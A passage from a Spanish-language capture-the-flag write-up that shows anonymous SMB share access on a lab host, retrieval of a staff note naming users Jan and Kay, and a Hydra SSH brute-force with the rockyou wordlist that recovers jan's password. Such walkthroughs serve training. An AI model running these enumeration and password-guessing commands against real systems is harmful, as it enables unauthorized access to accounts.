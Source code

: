 Dado el potencial interés del archivo staff.txt, decidí transferirlo a mi máquina local para su análisis posterior.

```bash
smbclient //10.10.210.76/Anonymous                        
Password for [WORKGROUP\rumamr9]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Apr 19 19:31:20 2018
  ..                                  D        0  Thu Apr 19 19:13:06 2018
  staff.txt                           N      173  Thu Apr 19 19:29:55 2018

                14318640 blocks of size 1024. 11091556 blocks available
smb: \> get staff.txt 
getting file \staff.txt of size 173 as staff.txt (0.7 KiloBytes/sec) (average 0.7 KiloBytes/sec)
smb: \> 
```

Después de descargar el archivo staff.txt desde el recurso compartido Anonymous en el servidor `10.10.210.76`, procedí a revisar su contenido utilizando el comando cat.

```bash
cat staff.txt 
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

# Explotación

Dado que en el archivo staff.txt se mencionaban los usuarios "Jan" y "Kay", decidí realizar un ataque de fuerza bruta contra el servicio SSH del servidor 10.10.210.76, utilizando el nombre de usuario "jan" con la esperanza de descubrir su contraseña. Para ello, empleé la herramienta Hydra y el diccionario de contraseñas rockyou.txt.

```bash
sudo hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.210.76 ssh 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-02 16:07:55
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.210.76:22/
[STATUS] 146.00 tries/min, 146 tries in 00:01h, 14344256 to do in 1637:29h, 13 active
[STATUS] 101.00 tries/min, 303 tries in 00:03h, 14344099 to do in 2367:01h, 13 active
[STATUS] 95.14 tries/min, 666 tries in 00:07h, 14343736 to do in 2512:40h, 13 active
[22][ssh] host: 10.10.210.76  login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 6 final worker threads did not complete until end.
[ERROR] 6 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-02 16:16:11
```
